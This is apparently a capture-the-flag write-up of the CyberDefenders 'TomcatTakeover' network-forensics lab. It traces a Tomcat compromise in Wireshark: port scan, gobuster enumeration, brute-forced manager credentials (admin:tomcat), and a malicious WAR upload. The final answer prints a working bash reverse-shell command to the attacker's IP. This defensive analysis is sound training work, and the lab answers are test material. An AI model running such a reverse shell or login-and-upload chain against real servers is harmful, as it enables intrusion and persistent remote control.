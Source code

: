 # TomcatTakeover

# Details

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:

Wireshark
NetworkMiner

# Solution

## Question 1
Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/da7cd5bb-1de0-4846-9e36-881d1b43619e)

Looking at the results we can see that the IP 14.0.0.120 has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

### Answer
14.0.0.120

## Question 2
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/6d4dc27f-9b99-4b74-93e6-69e96ba54a4a)

### Answer
Guangzhou

## Question 3
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.

![ports](https://github.com/user-attachments/assets/3ecdd6e0-7d54-4f0b-82a4-c28bf1b78c10)

Looking at the results it seems there is only one port involved in HTTP which is 8080 which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

### Answer
8080

## Question 4
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![proof](https://github.com/user-attachments/assets/385c7c96-6bf3-4a39-916d-7af6457b3edf)


### Answer
gobuster

## Question 5
Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel


![admin](https://github.com/user-attachments/assets/95880ed0-cdd9-4d18-911e-b247f587bdd0)

We can see a request for /manager/html which provides a response of Unauthorized telling us that the /manager is only accessible to admnins.

### Answer
/manager

## Question 6
Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/0fcc4cfa-4dc0-4dcb-9c54-7200a3142319)

### Answer
admin:tomcat

## Question 7
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/9b4a918f-43f4-47f1-91df-85cd402139df)

### Answer
JXQOZY.war

## Question 8
Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/fe764159-e959-4215-9f71-edd1ad1d0c8c)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

### Answer
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'


## Conclusion
This was a relatively easy and beginner friendly challenge which helped me practice my Network Forensic skills and Wireshark skills. 
